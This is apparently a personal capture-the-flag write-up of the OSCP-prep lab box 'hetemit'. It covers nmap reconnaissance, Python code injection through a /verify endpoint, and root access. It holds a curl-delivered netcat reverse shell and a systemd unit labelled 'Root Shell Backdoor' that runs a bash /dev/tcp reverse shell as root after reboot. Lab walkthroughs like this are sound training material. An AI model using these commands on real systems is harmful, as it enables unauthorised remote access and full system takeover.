

**Start 20:00 03-05-2025**

---
```
Scope:
192.168.179.117
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV hetemit -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT      STATE  SERVICE     REASON       VERSION
21/tcp    open   ftp         syn-ack      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.174
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh         syn-ack      OpenSSH 8.0 (protocol 2.0)
80/tcp    open   http        syn-ack      Apache httpd 2.4.37 ((centos))
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
139/tcp   open   netbios-ssn syn-ack      Samba smbd 4
445/tcp   open   netbios-ssn syn-ack      Samba smbd 4
18000/tcp open   biimenu?    syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
50000/tcp open   http        syn-ack      Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64666/tcp): CLEAN (Timeout)
|   Check 2 (port 63843/tcp): CLEAN (Timeout)
|   Check 3 (port 58721/udp): CLEAN (Timeout)
|   Check 4 (port 31140/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-time: 
|   date: 2025-05-03T12:02:18
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## 445/TCP - SMB

I used `enum4linux-ng` to check it out.


Unfortunately for us it was not able to list the drives.


## 18000/TCP - biimenu


Nothing really here.


## 50000/TCP - HTTP


I went to `/verify`:


That's weird? What could it possibly mean?

>[!note]
>Yeah not gonna lie I had no clue, so I looked it up and this pointed to being vulnerable with `curl` requests.

### RCE


Interesting, no clue what the heck we can do with this but cool.

So from the port scan we found out that the server is running on `python`, perhaps we can execute `python` code?

I tried a simple `id` command:

```python
__import__('os').popen('id').read()
```


Correct, we have `python` code execution.


# Foothold
## Shell as cmeeks

Let's get a reverse shell going:

```python
curl -XPOST -k -L 'http://hetemit:50000/verify' --data "code=__import__('os').popen('nc 192.168.45.174 80 -e /bin/bash').read()"
```


EZ PZ, took no longer than 15 minutes.

I decided to check out the `app.py` file in the directory where I landed:


Yeah makes sense.

### local.txt


## Enumeration

I transferred over `linpeas.sh` and immediately got the following:




Let's check out this service and what it does:


Most importantly this service is owned by *root*:


Let's check our privs as well, since we'll have to restart the service:


Hell yeah, let's exploit this sucker.


# Privilege Escalation
## Exploit

We will start off by modifying the service binary, later we 

```bash
cat << EOF > /tmp/pythonapp.service
[Unit]
Description=Root Shell Backdoor
After=network-online.target

[Service]
Type=simple
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.45.174/80 0>&1"
Restart=always
User=root

[Install]
WantedBy=multi-user.target
EOF

cp /tmp/pythonapp.service /etc/systemd/system/pythonapp.service
```


Let's see if it worked:


Yep, we have succesfully overwritten the file!

Now we simply have to issue the following command in order to reboot the system, and wait for the service to start up again.

```bash
sudo /sbin/reboot
```


>[!fail]
>Unfortunately a normal `nc` shell failed on us, we'll have to use a `bash` reverse shell instead.
>I had to revert the machine a couple of times to actually get it to work as well.

## Shell as root


At last we had *root*.

### proof.txt


>[!summary]
>This box definitely was super easy, I have no clue why other users rated this *very hard* as this was honestly a breeze.

---

**Finished 21:00 03-05-2025**

[^Links]: [[OSCP Prep]]

#binary-hijacking 